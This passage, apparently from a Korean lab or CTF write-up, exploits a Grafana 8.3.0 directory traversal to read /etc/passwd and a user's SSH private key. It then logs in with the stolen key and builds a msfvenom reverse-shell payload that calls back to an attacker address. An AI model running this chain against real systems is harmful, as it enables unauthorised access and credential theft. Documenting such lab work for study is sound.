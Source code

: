 ```sh
--------------------------------------------------------------------------------------------------------
 Exploit Title                                                                |  Path
---------------------------------------------------------------------------------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                   | multiple/webapps/50581.py
---------------------------------------------------------------------------------------------------------
Shellcodes: No Results
```

### 호스트 초기 침투
익스플로잇 코드를 사용하여 `/etc/passwd` 파일을 읽어오는 것을 확인했으므로 개념증명을 성공했다.
```sh
──(kali㉿kali)-[~/observer]
└─$ python3 50581.py -H http://172.31.157.1:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
                            [...]
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
                            [...]
miller:x:1001:1001::/home/miller:/bin/bash
```
계정 정보 중 uid가 1000이상인 ubuntu 유저와 miller 유저가 눈에 띄어 해당 유저들의 홈디렉토리 파일을 읽어 오던 중
miller 유저 홈디렉토리에 .ssh 폴더가 존재했으며 폴더안에 id_rsa 파일 형태로 키 값이 존재하는 것을 확인했다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ python3 50581.py -H http://172.31.157.1:3000
Read file > /home/miller/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAxpydytq5YkrT2O7nQyP0JjFGb81XCsEJMvFWMRqmUeX4wtvEa85o
GbYTRmLWGyNiqk2wtKEkaLmmE7xiUdktredBNSty+4jq8u2PwYNBiJZSWXFK7owgOkjt3C
                            [...]
-----END OPENSSH PRIVATE KEY-----
```

이 키 값을 가져와 miller_rsa.pem 이란 파일을 생성한 뒤 퍼미션 권한을 600으로 설정하고 ssh를 통해 접속을 시도하니 miller 유저로 호스트에 접근이 가능하였다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ vim miller_rsa.pem
                                                                            
┌──(kali㉿kali)-[~/observer]
└─$ chmod 600 miller_rsa.pem
                                                            
┌──(kali㉿kali)-[~/observer]
└─$ ssh -i miller_rsa.pem miller@172.31.157.1

miller@ip-172-31-157-1:~$ id;hostname;whoami

uid=1001(miller) gid=1001(miller) groups=1001(miller)
ip-172-31-157-1
miller
```
호스트에 접근이 가능해졌으니, 이제 리버스 쉘을 생성한다
```sh
┌──(kali㉿kali)-[~/observer]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf
```